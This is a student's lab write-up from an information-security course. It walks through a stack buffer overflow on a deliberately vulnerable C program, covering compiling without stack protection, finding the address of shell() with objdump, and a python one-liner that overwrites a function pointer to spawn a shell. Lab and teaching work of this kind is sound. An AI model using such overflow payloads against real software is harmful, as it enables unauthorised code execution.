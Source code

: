 # Lab bof2
Hà Quốc Tiến - 22110075<br>
## Target
- `void (*func)()=sup;` is calling the `sup()`, we want it to run the `shell()` instead.
## Solution
- Stack frame<br>
![bof3_1](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof3_1.png)
- Viewing the stack frames, we see that in order to call `shell()` instead. We need to buffer-overflow so that `(*func)() = "shell()'s address"`. It's similar to `bof2.c`, here we also look at the `fgets()`. And see it can take 133 bytes of data, while `buf` can only store 128.<br>
## Execution
1. Create `bof3.out` by using ` gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. Get the address of `shell()`.<br>
    > `objdump -d bof3.out|grep shell`

    ![bof3_2](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof3_2.png)
3. We start buffer-overflowing 132 bytes of data into `buf[128]`.
128 bytes of random data + 4 bytes address of `shell()`<br>
    > echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')")| ./bof3.out

    ![bof3_3](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof3_3.png)
- And the labs is done.

